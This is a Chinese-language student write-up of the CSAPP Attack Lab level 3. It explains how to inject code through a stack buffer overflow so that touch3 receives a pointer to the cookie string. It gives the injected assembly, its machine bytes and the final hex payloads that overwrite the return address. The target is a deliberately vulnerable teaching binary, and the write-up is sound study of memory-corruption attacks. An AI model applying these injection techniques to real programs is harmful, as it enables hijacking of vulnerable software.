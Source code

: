 ### 思路

- **level3简要说明**

    本题思路类似level2，只不过传回的是cookie的字符串形式的地址指针.

- **解题过程**
  
    观察了touch3(str)的汇编源码，hexmatch(cookie,str)中的cookie不用我们设置，这句

    ```py
    mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
    ```

    将hexmatch(cookie,str)的第一个参数设置好了，我们只需要保证我们的注入代码中有对<strong> %rdi </strong>修改即可，且<strong> %rdi </strong>指向cookie的字符串格式的首地址，那么**level3的关键点就是在何处存储cookie的字符串格式**.

    ```py
    cookie : 0x59b997fa
    (str) cookie : "59b997fa"
    (str in memory) : 0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 
    ```

    如果我们希望getbuf()的buf区同level2那样作为代码注入区，那么目标字符串就要换个位置存储，而test()中刚好分配了8个字节(虽说会多出一个'\0'，不过我们不会从test()中返回，所以test()栈帧中的返回地址被破坏也是无关紧要的)

- **注入代码实现**

    有了上述的解题过程思路，我们编写出注入代码的汇编形式

    ```py
    # 优化前，爆40个字节了
    movq   %rsp,%rsi  # let rsi to address which for "59b997fa" str make
    movb   $0x35,(%rsi)   # ascii of '5'
    movb   $0x39,1(%rsi)  # ascii of '9'
    movb   $0x62,2(%rsi)  # ascii of 'b'
    movb   $0x39,3(%rsi)  # ascii of '9' 
    movb   $0x39,4(%rsi)  # ascii of '9'
    movb   $0x37,5(%rsi)  # ascii of '7'  
    movb   $0x66,6(%rsi)  # ascii of 'f'
    movb   $0x61,7(%rsi)  # ascii of 'a'
    movb   $0x00,8(%rsi)  # ascii of '\0'
    movq   %rsi,%rdi      # make %rdi as argument for touch3(str)
    pushq  $0x4018fa      # make touch() be the return address
    ret

    # 优化后
    movq   %rsp,%rsi            # 当前%rsp就是指向test的栈空间了，注意
    movl   $0x39623935,(%rsi)   # ascii of "59b9"，注意高位放高位
    movl   $0x61663739,4(%rsi)  # ascii of "97fa"
    movb   $0x00,8(%rsi)        # ascii of "\0"
    movq   %rsi,%rdi      # make %rdi as argument for touch3(str)
    pushq  $0x4018fa      # make touch() be the return address
    ret
    ```

    反汇编后得到机器级指令

    ```py
       0000000000000000 <.text>:
      0:	48 89 e6             	mov    %rsp,%rsi
      3:	c7 06 35 39 62 39    	movl   $0x39623935,(%rsi)
      9:	c7 46 04 39 37 66 61 	movl   $0x61663739,0x4(%rsi)
     10:	c6 46 08 00          	movb   $0x0,0x8(%rsi)
     14:	48 89 f7             	mov    %rsi,%rdi
     17:	68 fa 18 40 00       	push   $0x4018fa
     1c:	c3                   	ret   
    ```

- **最终答案**

    ```txt
        48 89 e6 c7 06 35 39 62 
        39 c7 46 04 39 37 66 61
        c6 46 08 00 48 89 f7 68 
        fa 18 40 00 c3 00 00 00
        00 00 00 00 00 00 00 00
        78 dc 61 55 00 00 00 00
    ```

- **更简单的思路**
  直接在ctarget3.txt中存放在Test()栈空间中的字符串，那么新的注入汇编代码如下

  ```py
    movq %rsp,%rdi # 设置touch3()的参数
    pushq  $0x4018fa      # make touch() be the return address
    ret
  ```

  ```py
    48 89 e7 68 fa 18 40 00 
    c3 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    78 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61
    # 注意返回地址是8bytes，不要在55后直接接字符串
  ```